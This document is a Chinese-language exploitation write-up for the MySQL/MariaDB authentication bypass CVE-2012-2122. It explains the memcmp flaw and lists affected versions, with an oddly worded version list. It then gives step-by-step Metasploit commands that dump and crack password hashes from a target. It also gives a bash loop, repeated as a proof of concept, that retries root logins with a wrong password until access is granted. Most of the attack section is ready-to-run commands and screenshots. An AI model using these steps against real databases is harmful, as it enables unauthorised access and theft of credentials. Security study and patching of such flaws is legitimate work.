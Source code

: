 # MySQL身份绕过验证漏洞(CVE-2012-2122)

**当连接MySQL/MariaDB时，输入的密码会与期望的正确密码相比较，由于不正确的处理，会导致即便是memcmp()返回一个非零值，也会使MySQL认为两个密码是相同的，也就是说只需要知道用户名，不断尝试就能够直接登录SQL数据库，类似爆破按照公告说法大约256次就能够蒙对一次**



# 漏洞影响版本

- MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.
- MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.





# 漏洞利用

**利用方法一：使用msfconsole框架**

![img](https://img-blog.csdnimg.cn/20210908101649590.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA546b5Y2h5be05Y2h5be05be05Lqa5Y2h,size_12,color_FFFFFF,t_70,g_se,x_16)

选中要使用的EXP

```
use auxiliary/scanner/mysql/mysql_authbypass_hashdump
```

查看需要的配置

```
show options
```

配置对方IP即可

```
set rhosts xxx
```

![image-20220422215318131](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220422215318131.png)

设置线程，速度可以快一些

```
set threads 20
```

![img](https://img-blog.csdnimg.cn/20210908101718213.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA546b5Y2h5be05Y2h5be05be05Lqa5Y2h,size_14,color_FFFFFF,t_70,g_se,x_16)

exploit，mysql密码的hash值就在指定文件夹中

![img](https://img-blog.csdnimg.cn/20210908101756312.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA546b5Y2h5be05Y2h5be05be05Lqa5Y2h,size_15,color_FFFFFF,t_70,g_se,x_16)

找到加密后的密码和用户名，进行解密

![img](https://img-blog.csdnimg.cn/20210908101840905.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA546b5Y2h5be05Y2h5be05be05Lqa5Y2h,size_13,color_FFFFFF,t_70,g_se,x_16)

![img](https://img-blog.csdnimg.cn/20210908101850350.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA546b5Y2h5be05Y2h5be05be05Lqa5Y2h,size_19,color_FFFFFF,t_70,g_se,x_16)

成功登录Mysql

![img](https://img-blog.csdnimg.cn/20210908101904310.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA546b5Y2h5be05Y2h5be05be05Lqa5Y2h,size_15,color_FFFFFF,t_70,g_se,x_16)



利用方法二：



在攻击机中Bash环境下允许如下命令：

```
for i in `seq 1 1000`; do mysql -uroot -pwrong -h xxxx -P3306 ; done
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210503190335434.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzNzI5Ng==,size_16,color_FFFFFF,t_70)

在一定量的尝试后便可成功登录。



# 漏洞POC

```
for i in `seq 1 1000`; do mysql -uroot -pwrong -h 1.1.1.1 -P3306 ; done
```





